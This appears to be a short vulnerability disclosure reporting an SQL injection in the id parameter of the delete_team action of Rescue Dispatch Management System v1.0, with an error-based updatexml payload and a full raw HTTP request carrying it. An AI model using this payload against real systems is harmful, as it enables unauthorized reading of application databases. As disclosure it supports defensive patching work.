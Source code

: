 # Rescue Dispatch Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15296/rescue-dispatch-management-system-phpoop-free-source-code.html

Vulnerability File: /rdms/classes/Master.php?f=delete_team

Vulnerability location: /rdms/classes/Master.php?f=delete_team, id

[+] Payload: id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id


```sql
POST /rdms/classes/Master.php?f=delete_team HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/rdms/admin/?page=teams
Content-Length: 65
Cookie: PHPSESSID=hkbchcmaitn0d8enhm4jtdjk9q
Connection: close

id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/170449597-69f5533b-4b84-4981-b9dd-44f1a60c037c.png)
